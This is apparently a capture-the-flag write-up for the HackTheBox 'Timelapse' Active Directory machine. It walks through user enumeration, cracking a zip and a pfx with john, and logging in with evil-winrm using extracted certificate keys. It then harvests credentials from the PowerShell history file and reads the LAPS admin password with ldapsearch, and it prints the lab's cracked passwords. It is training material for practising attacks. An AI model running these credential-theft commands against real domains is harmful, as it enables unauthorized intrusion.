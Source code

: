 Started with a nmap scan
```
53 DNS
88 Kerberos
135 RPC
139
389
445
464
593
636 LDAP ssl
3268 LDAP
```
There is a domain `timelapse.htb` and a hostname `dc01.timelapse.htb` checking out the SMB we have guest account access we can do a ridbrute and get a list of users on the host machine
```
Administrator
Guest
krbtgt
DC01$
thecybergeek
payl0ad
legacyy
sinfulz
babywyrm
DB01$
WEB01$
DEV01$
svc_deploy
```
Going back to the SMB there is a `Shares` share with HelpDesk info and a Dev section with a `winrm_backup.zip` the zip file is password protected so we can use `zip2john` to get the hash so we can crack it and then we can use hashcat after making it in the right format and it cracked to `supremelegacy` and we get a `legacyy_dev_auth.pfx` file now we can use `pfx2john` since we don't know the password for the file and then use john to crack it `legacyy_dev_auth.pfx:thuglegacy` we need to get the public and private key from the pfx file so we can auth with it 
```
Public
certipy-ad cert -pfx legacyy_dev_auth.pfx -nokey -out (filename) -password thuglegacy
Private
certipy-ad cert -pfx legacyy_dev_auth.pfx -nocert -out (filename) -password thuglegacy
```
now we can auth using winrm `evil-winrm -i 10.10.11.152 -c legacypub.pem -k legacyprivate.pem -S` now we are on the host we can get the user flag but AV is running so we cant use winpeas or I could not get metasploit payload on there as well so looking around at possible history files we found something in the powershell history file `cat $env:APPDATA\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` and we go the creds for another user `svc_deploy:E3R$QQ62^12p7PLlC%KWaxuaV` but we cant winrm as this user so we need to do enumeration from powershell with the `net user svc_deploy` command  and this user is apart of the `LAPS_Readers` group and we can use ldapsearch to read the `ms-Mcs-AdmPwd` `ldapsearch -x -H ldap://10.10.11.152 -D "svc_deploy" -w 'E3R$QQ62^12p7PLlC%KWaxuaV' -b "dc=timelapse,dc=htb" "(&(objectCategory=computer)(ms-Mcs-AdmPwd=*))" ms-Mcs-AdmPwd` and we got the admin password `l@l67x+R6sz!9)E7@2L)v{(R` and now we can winrm into the admin account don't forget the `-S` flag 